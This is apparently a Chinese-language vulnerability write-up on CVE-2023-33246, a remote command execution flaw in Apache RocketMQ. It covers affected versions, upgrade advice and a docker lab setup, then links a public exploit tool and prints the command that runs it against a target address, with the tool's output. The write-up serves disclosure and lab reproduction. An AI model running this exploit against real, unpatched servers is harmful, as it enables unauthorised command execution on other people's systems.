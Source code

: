 # CVE-2023-33246

> **Create by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Apache RocketMQ 远程命令执行漏洞




## 0x01 漏洞描述

对于RocketMQ 5.1.0及以下版本，在某些情况下，存在远程命令执行的风险。RocketMQ的几个组件，包括NameServer、Broker和Controller，在网络上泄露，并且缺乏权限验证，攻击者可以通过使用更新配置功能作为RocketMQ运行的系统用户执行命令来利用此漏洞。此外，攻击者还可以通过伪造RocketMQ协议内容来达到同样的效果。为了防止这些攻击，建议使用RocketMQ 5.x的用户升级到5.1.1或更高版本，使用Rocket MQ 4.x的用户升级到4.9.6或更高版本。

## 0x02 影响范围

```javascript
5.x < 5.1.1
4.x < 4.9.6
```

## 0x03 环境搭建

```javascript
docker 启动环境搭建成功
docker-compose up -d
```

## 0x04 漏洞利用

工具下载地址：<https://github.com/Le1a/CVE-2023-33246>

```
java -jar CVE-2023-33246.jar -ip "192.168.10.123:10911" -cmd "touch /tmp/success" 
```



```javascript
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
RocketMQLog:WARN No appenders could be found for logger (io.netty.util.internal.InternalThreadLocalMap).
RocketMQLog:WARN Please initialize the logger system properly.
初始rocketmqHome为: /rocketmq-all-5.1.0-bin-release
攻击已结束!请稍后查看结果!
10:45:19.023 [NettyClientSelector_1] INFO  RocketmqRemoting - closeChannel: close the connection to remote address[1.1.1.1:9876] result: true
10:45:19.027 [NettyClientSelector_1] INFO  RocketmqRemoting - closeChannel: close the connection to remote address[1.1.1.1:9876] result: true
配置已经还原为: /rocketmq-all-5.1.0-bin-release!
10:45:19.032 [NettyClientSelector_1] INFO  RocketmqRemoting - closeChannel: close the connection to remote address[192.168.10.123:10911] result: true
```

 ![](image/00e2ec4c-a476-4d02-bb42-1a2fd2fd7f26.png)